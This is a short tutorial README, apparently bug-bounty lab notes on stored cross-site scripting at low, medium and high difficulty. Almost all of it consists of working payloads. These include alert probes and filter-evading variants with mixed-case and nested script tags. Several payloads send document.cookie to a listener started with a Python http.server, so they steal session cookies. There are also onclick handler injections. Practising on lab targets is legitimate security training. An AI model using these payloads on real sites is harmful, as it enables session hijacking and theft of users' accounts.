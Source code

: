 # bug-bounty-tutorial
bug bounty tutorial

## 18.XSS-store

### clear send to burp suite repeater

### low in name & message
```
python3 -m http.server 3000
<script>alert("XSS");</script>
```
### change textarea size
```
<script>window.location="http://127.0.0.1:3000/?cookie="+document.cookie</script>
```
### medium
### change input size
```
<ScRipT>window.location="http://127.0.0.1:3000/?cookie="+document.cookie</script>
<scr<script>ipt>window.location="http://127.0.0.1:3000/?cookie="+document.cookie</script>
<scr<script>ipt>alert(document.cookie)</script>
```

### high
### burp suite
### ctrl u encode url
```
<a onclick="alert(1)" style=display:block>test</a>
<a onclick="alert(document.cookie)" style=display:block>test</a>
```
